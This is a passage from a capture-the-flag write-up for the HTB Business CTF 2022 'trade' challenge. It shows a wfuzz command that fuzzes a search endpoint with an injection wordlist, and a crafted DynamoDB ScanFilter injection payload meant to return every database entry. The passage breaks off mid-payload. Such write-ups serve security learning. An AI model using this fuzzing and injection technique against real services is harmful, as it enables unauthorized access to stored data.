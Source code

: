 The webapp is a "store" that allows you to buy access into companies.  
However, none of the UI elements do anything so we're probably not going to find anything useful here.  

There's also a '/search' page that has a search bar.  
After trying many different inputs I couldn't get any kind of output from that endpoint.  

So, I decided to try fuzzing that endpoint using wfuzz
{% highlight bash %}
wfuzz \
    -z file,/usr/share/wordlists/wfuzz/Injections/All_attack.txt \
    -d "q=FUZZ" -b session=eyJhdXRoIjp0cnVlLCJsb2dnZWRpbiI6dHJ1ZX0.YtPMqA.KBX2_5stpWbkhc0RW72Ead7H89Y \
    http://trade.htb/search
{% endhighlight %}

![Authenticated]({{site.baseurl}}/assets/img/HTB_Business_CTF_2022/trade/wfuzz.png){: .center-image}

The first result had a different size than the one I was used to. So I sent the same input (\00\00\00) to see the output.  

![Authenticated]({{site.baseurl}}/assets/img/HTB_Business_CTF_2022/trade/search_error.png){: .center-image}

Adding "\00\00\00" to the query parameter created some issues with one of the JSON payloads.  
I also found out that I can get the same kind of error by using a payload that contains double quotes.  
This means that the JSON string might be controllable by the user.

# DynamoDB injection

Judging by the format of the JSON payload, it is probably a ScanFilter for DynamoDB.  
There are some cases where these payloads are injectable.  
Some very good examples can be seen [here](https://medium.com/appsecengineer/dynamodb-injection-1db99c2454ac).  

Because we can already see how the payload looks because of the error message, we can try to alter it.  
The current payload looks like this 

{% highlight bash %}
{"servername":{"ComparisonOperator": "EQ", "AttributeValueList":[{"S":"<user_input>"}]}}  
{% endhighlight %}


It will match only entries that have the exact same "servername" as the one in our input.  
We can try to add another condition that will select all the entries from that database (similar to a ' OR 1=1 payload in SQL).

We want the new payload to be something like:
{% highlight bash %}
{
    "servername": {
        "ComparisonOperator": "EQ",
        "AttributeValueList": [
            {
                "S": "test"
            }
        ]
    },
    "servername": {
        "ComparisonOperator": "GT",
        "AttributeValueList": [
            {
                "S": " "
            }
        ]
    }
}